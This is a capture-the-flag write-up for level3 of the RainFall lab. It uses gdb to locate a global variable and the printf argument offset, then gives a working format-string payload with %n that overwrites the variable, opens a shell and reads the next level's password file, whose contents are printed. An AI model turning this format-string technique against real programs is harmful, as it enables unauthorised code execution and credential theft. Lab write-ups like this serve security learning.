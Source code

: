 ## Find the addess of m to change his value

In the asm we can see `0x80484e2 <v+62>        jne    0x8048518 <v+116>`, we check

```sh
(gdb) x/s 0x804988c
0x804988c <m>:   ""
```
> yes, we got the address &m = 0x804988c

## Find the address of the buffer / printf arguement

```sh
(gdb)
AAAA
0x080484cc in v ()
(gdb) x/80x $esp
0xbffff510:     0xbffff520      0x00000200      0xb7fd1ac0      0xb7ff37d0
0xbffff520:     0x41414141      0xb7e2000a      0x00000001      0xb7fef305
0xbffff530:     0xbffff588      0xb7fde2d4      0xb7fde334      0x00000007
0xbffff540:     0x00000000      0xb7fde000      0xb7fff53c      0xbffff588
0xbffff550:     0x00000040      0x00000b80      0x00000000      0xb7fde714
0xbffff560:     0x00000098      0x0000000b      0x00000000      0x00000000
0xbffff570:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff580:     0x00000000      0xb7fe765d      0xb7e3ebaf      0x080482bb
0xbffff590:     0x00000000      0x00000000      0x00000000      0xb7fe749f
0xbffff5a0:     0xb7fd5000      0x00000002      0x08048268      0xb7fffc00
0xbffff5b0:     0xb7ffeff4      0xb7ffeff4      0xb7e2fc30      0x00000001
0xbffff5c0:     0xb7fdcb18      0xb7fe7cac      0x00000000      0x00000000
0xbffff5d0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff5e0:     0x00000000      0xb7fdcb18      0x00000000      0x00000000
0xbffff5f0:     0x00000000      0x00000003      0xf63d4e2e      0x000003f3
0xbffff600:     0x00000000      0xb7e38938      0xb7fffe78      0xb7ff9d5c
0xbffff610:     0xb7e2fe38      0x00000000      0x00000000      0xb7e5d58d
0xbffff620:     0x00000000      0x00000000      0x00000001      0x000008b0
0xbffff630:     0xb7fdcb48      0xb7fdc858      0x080482a9      0xb7e39158
0xbffff640:     0x08048218      0x00000001      0xb7ec36c0      0xb7ec3996
(gdb) x/s $esp + 16
0xbffff520:      "AAAA\n"
```

But printf read chars to 4bites 16 / 4 = 4

```sh
level3@RainFall:~$ ./level3
%4$p
0x70243425
```
> 0x70243425 = ?p$4%, so we got it

## Exploit

```sh
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '%59x' + '\%4\$n')"; cat) | ./level3
��                                                        200\
Wait what?!
ls
ls: cannot open directory .: Permission denied
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```